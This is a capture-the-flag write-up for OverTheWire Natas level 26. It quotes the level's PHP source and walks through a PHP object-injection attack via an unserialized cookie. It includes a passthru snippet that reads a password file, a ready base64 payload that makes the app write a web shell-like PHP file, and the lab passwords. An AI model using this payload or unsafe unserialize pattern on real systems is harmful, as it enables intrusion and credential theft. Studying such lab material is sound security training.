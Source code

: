 +++
author = "Alex Domnit"
title = 'Natas-Level 26'
date = 2024-11-23T13:12:26+02:00
draft = false
description = "Writeup"
tags = [
    "CTF",
    "Completed",
]
categories = [
    "Overthewire",
    "Natas",
]

toc = false
+++

### Login
*Username: natas26*\
*Password: cVXXwxMS3Y26n5UZU89QgpGmWCelaQlE*\
*URL:      http://natas26.natas.labs.overthewire.org*

### Doc
Burp Suite is a proprietary software tool for security assessment and penetration testing of web applications. It software was initially developed in 2003-2006 by Dafydd Stuttard to automate his own security testing needs, after realizing the capabilities of automatable web tools like Selenium.
[Source.](https://en.wikipedia.org/wiki/Burp_Suite)\
Burp Suite tutorial and usefull guides:\
[Port Swigger.](https://portswigger.net/burp/documentation/desktop/getting-started)\
[PHP tutorial.](https://www.w3schools.com/php/)


### Solution
The index page presents itself with 4 fields of X\`s and Y\`s that draw 2 lines from the respective coordinates.

<img src="/img/natas/natas26-1.png" alt="gif" style="display: block; margin-left: auto; margin-right: auto;">

**Source code:**
```
<?php
    // sry, this is ugly as hell.
    // cheers kaliman ;)
    // - morla

    class Logger{
        private $logFile;
        private $initMsg;
        private $exitMsg;

        function __construct($file){
            // initialise variables
            $this->initMsg="#--session started--#\n";
            $this->exitMsg="#--session end--#\n";
            $this->logFile = "/tmp/natas26_" . $file . ".log";

            // write initial message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->initMsg);
            fclose($fd);
        }

        function log($msg){
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$msg."\n");
            fclose($fd);
        }

        function __destruct(){
            // write exit message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->exitMsg);
            fclose($fd);
        }
    }

    function showImage($filename){
        if(file_exists($filename))
            echo "<img src=\"$filename\">";
    }

    function drawImage($filename){
        $img=imagecreatetruecolor(400,300);
        drawFromUserdata($img);
        imagepng($img,$filename);
        imagedestroy($img);
    }

    function drawFromUserdata($img){
        if( array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
            array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET)){

            $color=imagecolorallocate($img,0xff,0x12,0x1c);
            imageline($img,$_GET["x1"], $_GET["y1"],
                            $_GET["x2"], $_GET["y2"], $color);
        }

        if (array_key_exists("drawing", $_COOKIE)){
            $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
            if($drawing)
                foreach($drawing as $object)
                    if( array_key_exists("x1", $object) &&
                        array_key_exists("y1", $object) &&
                        array_key_exists("x2", $object) &&
                        array_key_exists("y2", $object)){

                        $color=imagecolorallocate($img,0xff,0x12,0x1c);
                        imageline($img,$object["x1"],$object["y1"],
                                $object["x2"] ,$object["y2"] ,$color);

                    }
        }
    }

    function storeData(){
        $new_object=array();

        if(array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
            array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET)){
            $new_object["x1"]=$_GET["x1"];
            $new_object["y1"]=$_GET["y1"];
            $new_object["x2"]=$_GET["x2"];
            $new_object["y2"]=$_GET["y2"];
        }

        if (array_key_exists("drawing", $_COOKIE)){
            $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
        }
        else{
            // create new array
            $drawing=array();
        }

        $drawing[]=$new_object;
        setcookie("drawing",base64_encode(serialize($drawing)));
    }
?>

<h1>natas26</h1>
<div id="content">

Draw a line:<br>
<form name="input" method="get">
X1<input type="text" name="x1" size=2>
Y1<input type="text" name="y1" size=2>
X2<input type="text" name="x2" size=2>
Y2<input type="text" name="y2" size=2>
<input type="submit" value="DRAW!">
</form>

<?php
    session_start();

    if (array_key_exists("drawing", $_COOKIE) ||
        (   array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
            array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET))){
        $imgfile="img/natas26_" . session_id() .".png";
        drawImage($imgfile);
        showImage($imgfile);
        storeData();
    }

?>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

**Important takeaway:**

These are some function that we are gonna utilize in the exploit. The application utilizes a **Logger** class but it is not utilized in any way whatsoever.\
We can see that the drawing cookie is being set by base64 encoding the serialization of the img.\
**setcookie("drawing",base64_encode(serialize($drawing)));**

#### What is serialization in PHP?

Generates a storable representation of a value.\
This is useful for storing or passing PHP values around without losing their type and structure.\
To make the serialized string into a PHP value again, use unserialize().\
[Source.](https://www.php.net/manual/en/function.serialize.php)

#### What now?

We can test this by parsing our default cookie through Cyberchef in reverse order and we should get something tangible.

<img src="/img/natas/natas26-2.png" alt="gif" style="display: block; margin-left: auto; margin-right: auto;">

As seen, we get the array representation of the inputed coordinates so in theory, we could reverse the process with whatever value we want for the respective cookie and get a valid running.\
As done before, we can use **<? passthru('cat /etc/natas_webpass/natas27'); ?>** in a PHP file and then run it by accessing it in the tree at the point where we want to save it.\
So, we are gonna create a PHP file that encodes and serializez a PHP snippet, save it as the cookie and then access the password for the next level.

**Payload code:**

<img src="/img/natas/natas26-3.png" alt="gif" style="display: block; margin-left: auto; margin-right: auto;">

**Run with PHP:**
```
02:46:35 archie@Archie pico → php some.php
Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoxMToiaW1nL3B3bi5waHAiO3M6MTU6IgBMb2dnZXIAaW5pdE1zZyI7czoxMDoic29tZXRoaW5nCiI7czoxNToiAExvZ2dlcgBleGl0TXNnIjtzOjYxOiI8P3BocCBlY2hvIGZpbGVfZ2V0X2NvbnRlbnRzKCcvZXRjL25hdGFzX3dlYnBhc3MvbmF0YXMyNycpOz8+Ijt9
```

#### Wrapping up

Now that we`ve got the needed cookie, we can launch burp, modify the current cookie with the modified one in the request and then access the generated php file under the /img directory.

<img src="/img/natas/natas26-4.png" alt="gif" style="display: block; margin-left: auto; margin-right: auto;">

After this, let`s check if the PHP file was created.\
Going to /img/pwn2.php in my case reveals the password after running the PHP code.\
**Password for next level:** u3RRffXjysjgwFU6b9xa23i6prmUsYne